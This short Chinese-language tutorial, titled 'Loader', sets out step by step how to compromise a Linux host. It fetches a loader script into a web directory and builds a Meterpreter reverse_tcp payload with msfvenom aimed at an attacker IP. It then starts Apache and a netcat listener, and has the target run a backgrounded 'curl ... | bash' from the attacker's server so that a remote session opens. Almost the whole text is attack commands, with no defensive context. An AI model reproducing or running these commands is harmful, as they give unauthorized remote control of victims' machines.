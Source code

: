 # Loader

下载脚本到 Web 目录

```shell
┌──(root㉿kali)-[~]
└─# wget https://raw.githubusercontent.com/jadensalas469466/tools/refs/heads/main/attack/loader.sh -O /var/www/html/upload/loader.sh
```

在云服务器上生成 Payload

```shell
┌──(root㉿kali)-[~]
└─# msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=[attack_ip] LPORT=[port] -f elf -o /var/www/html/upload/payload
```

开启 Web 服务并使用 Netcat 监听 `[port]` 端口

```shell
┌──(root㉿kali)-[~]
└─# systemctl start apache2.service && nc -l -p [port]
```

使目标下载 Loader 脚本，即可上线

```shell
root@debian:~# nohup curl -fsSL http://[attack_ip]/upload/loader|bash -sh > /dev/null 2>&1 &
```

---

参考链接

- [Loader](https://github.com/jadensalas469466/tools/blob/main/attack/loader.sh)


